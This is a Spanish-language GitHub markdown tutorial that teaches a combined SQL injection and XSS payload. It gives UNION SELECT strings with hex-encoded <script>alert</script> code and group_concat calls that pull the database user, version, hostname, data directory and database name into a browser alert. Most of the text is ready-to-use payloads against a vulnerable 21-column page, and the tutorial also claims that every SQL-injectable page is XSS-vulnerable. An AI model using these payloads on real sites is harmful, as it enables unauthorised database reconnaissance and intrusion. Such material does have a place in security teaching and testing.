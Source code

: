 # One shot payload sql and xss

En este escrito me gustaría compartir una de mis mezclas favoritas, en donde se combina una inyeccion xss dentro de una inyeccion sql para asi poder mostrar el resultado de la inyeccion sql dentro de un alert gracias a la inyeccion xss, puede sonar loco o complicado pero no, es bastante facil y trataré de explicarlo paso a paso, aqui un ejemplo del resultado: 

![](ejemplos/1.png)

Para empezar tenemos que recordar bien como se comporta una inyeccion sql, ya que, para poder insertar este payload tenemos que hacerlo en una comlumna vulnerable, para recordar bien esto recomiendo pasar por el escrito de inyecciones sql:

https://github.com/Y000o/sql_injection_basic/blob/master/sql_injection_basic.md

Una vez que tengamos la pagina con la inyeccion sql lista y tengamos el numero de columnas descubiertas, podemos empezar:

![](ejemplos/2.png)

En este caso la pagina que utilizaré tiene 21 columnas y las columnas vulnerables son 16, 17 y la numero 18. Yo estare trabajando con la numero 18.

Recordemos que siempre que una pagina es vulnerable a inyecciones sql tambien es vulnerable a inyecciones xss, para poder inyectar xss dentro de sql se hace lo siguiente:

1 - Primero se identifica la columna vulnerable con la cual se va a trabajar (en este caso la numero 18):

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21+--+`

2 - Inyectamos el payload xss dentro de la columna:

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,<script>alert("_Y000!_")</script>,19,20,21+--+
        
3 - Para que se mueste correctamente la inyeccion xss tenemos que pasar el codico a hexadecimal:

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,0x3c7363726970743e616c65727428225f59303030215f22293c2f7363726970743e,19,20,21+--+`
        
4 - El resultado es el siguiente:         

![](ejemplos/3.png)

Ahora, en este caso solo estamos inyectado xss puro y solo nos muestra un alert, para el sigiente paso vamos a usar los siguietes comandos y me gustaria explicar su funcion ya que los usaremos mas adelante:

```
\n = 5c6e =salto de linea

------ = 2d2d2d2d2d2d = lo usaremos como separador
```

NOTA= para hacer que los codigos codificados en hexadecimal funcionen en la inyeccion tenemos que poner 0x antes del codigo para que el navegador reconozca que estamos usando codico en hexadecimal y lo lea correctamente

Siguiendo con la inyeccion, vamos a introducir un poco de syntaxis sql dentro de la inyeccion xss, mas especificamente, lo que vamos a hacer es extender el alert:

El siguiente payload nos quedara asi:
`group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,usuario::,user(),")</script>)`

con todas las partes en hexadecimal:

`union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,group_concat(0x3c7363726970743e616c65727428227873735f795f73716c5f62795f59303030215f,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x5573756172696f3a3a,user(),0x22293c2f7363726970743e),19,20,21+--+`


vamos a explicar paso a paso esta inyeccion:

1 - Estamos usando "group_concat" al principio por que ya estamos integrando syntaxis sql dentro de la inyeccion xss:

          `group_concat`

2 - Ponemos el payload entre "()" ya que es la syntaxis usada para group_concat 

          `group_concat()`
          
3 - Estamos haciendo uso de caracteres especiales para personalizar el alert

          `group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,")</script>)`
          
4 - Usamos "Usuario::" para darle un lugar especifco a "user()" el cual usamos para que la inyeccion nos muestre el usuario que la pagina nos esta dando, en este caso tenemos "root@localhost" 

          `group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,usuario::,user(),")</script>)`
          
5 - resultado:

![](ejemplos/4.png)


Siguendo esta logica podemos usar consultas perzonalizadas. les recomiendo esta parte de mi escrito de inyecciones sql:

https://github.com/Y000o/sql_injection_basic/blob/master/sql_injection_basic.md#mysql-sql-Injection-Cheat-Sheet

Una vez elegido lo que queremos mostrar, podemos ir al siguiente paso, en este ejemplo yo elegi mostrar la siguiente informacion:

```
user()
version()
@@hostname
@@datadir
database()
```

payload:

`group_concat(0x<script>alert("xss_y_sql_by_Y000!_,\n,------,\n,usuario::,user(),\n,------,\n,version::,version(),\n,------,\n,hostname::,@@hostname,\n,------,\n,directorio::,@@datadir,\n,------,\n,Database::,database(),\n,------,\n,")</script>)`


payload completo con todas sus partes en hexadecimal:

`union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,group_concat(0x3c7363726970743e616c657274607873735f795f73716c5f62795f59303030215f,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x7573756172696f3a3a,user(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x76657273696f6e3a3a,version(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x686f73746e616d653a3a,@@hostname,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x6469726563746f72696f3a3a,@@datadir,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x44617461626173653a3a,database(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x603c2f7363726970743e),19,20,21+--+`

El resultado es el siguiente:

![](ejemplos/5.png)





